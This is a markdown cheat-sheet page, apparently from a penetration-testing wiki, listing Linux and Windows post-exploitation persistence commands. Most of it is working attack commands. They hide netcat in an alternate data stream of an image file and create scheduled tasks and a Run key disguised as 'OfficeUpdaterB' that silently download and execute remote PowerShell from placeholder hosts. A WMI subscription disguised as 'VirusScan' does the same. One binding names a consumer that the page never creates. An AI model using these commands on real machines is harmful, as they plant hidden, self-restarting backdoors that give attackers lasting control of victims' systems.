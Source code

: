 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

<code>setsid *command*</code>

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
Schduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''[]'''))'" /sc onstart /ru System </code>
Scheduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''https://website/page'''))'" /sc daily /st 12:53 </code>
Run Key | <code> REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "OfficeUpdaterB" /t REG_SZ /F /D "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \"IEX ((new-object net.webclient).downloadstring('https://website/page'))\"" </code>



WMI Persistence:
<code> 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
</code>

* http://pwnwiki.io/#!persistence/windows/index.md
* http://www.fuzzysecurity.com/tutorials/19.html
* http://www.hexacorn.com/blog/category/autostart-persistence/page/8/
* https://attack.mitre.org/wiki/Persistence

